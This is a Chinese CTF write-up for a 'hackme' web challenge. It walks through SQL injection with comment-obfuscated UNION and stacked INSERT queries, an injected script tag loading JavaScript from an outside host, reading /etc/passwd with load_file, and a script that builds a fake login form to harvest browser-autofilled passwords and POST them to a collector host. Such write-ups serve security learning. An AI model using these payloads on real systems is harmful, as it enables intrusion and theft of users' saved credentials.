 **http://hackme.sctf.xctf.org.cn/index.php?id=1/*!00000union*//*!00000select*/event/*!00000from*/beiwanglu%23**
进去的时候看到是备忘录内容，想起一个hint是说管理员会看自己的备忘录，那么插入一个js看看

```
http://hackme.sctf.xctf.org.cn/index.php?id=1;/*!00000insert*//*!00000into*/beiwanglu(id,time,event)/*!00000values*/(77,84,%27%3Cscript/src=%22http://xxx/1.js%22%3E%3C/script%3E%27)%23
```

开始×回来了phpsession，发现无效，于是尝试能不能读文件
```
http://hackme.sctf.xctf.org.cn/index.php?id=1/*!00000union*//*!00000select*/load_file('/etc/passwd')%23
```
发现什么都能读于是翻了翻php和nginx的配置，还翻了翻lnmp的log，没什么收获
尝试能不能写一个webshell进去，发现权限不够，只能写在/tmp下。

这时候看到提示说**浏览器的记住密码**
想到一种可能，构造一个表单，浏览器会自动填充，然后获取内容post回来，尝试一下。
```
    var form1 = document.createElement("form");  
    form1.id = "lg-form";  
    form1.name = "lg-form";  
   
    document.body.appendChild(form1);  
   
    var input = document.createElement("input");  
 
    input.type = "text";  
    input.name = "username"; 
    input.id = "username"; 
    input.placeholder = "username";

    var input2 = document.createElement("input");  
 
    input2.type = "password";  
    input2.name = "password"; 
    input2.id = "password"; 
    input2.placeholder = "password";   

    var button1 = document.createElement("button");  
   
    button1.type = "submit"; 
    button1.id = "login"; 
  
    form1.appendChild(input);
    form1.appendChild(input2);
    form1.appendChild(button1);  
 
    form1.method = "POST";  
    form1.action = "";  

    user = document.getElementById('username').value;
    pass = document.getElementById('password').value;
    var xml = new XMLHttpRequest(); xml.open('POST', 'http://xss.xxx.cc', true); xml.setRequestHeader("Content-type","application/x-www-form-urlencoded"); 
    setTimeout(xml.send('username='+user+'&password='+pass),2000);
```
后面的settimeout是因为第一次测试的时候发现填充是需要时间的，所以需要延时
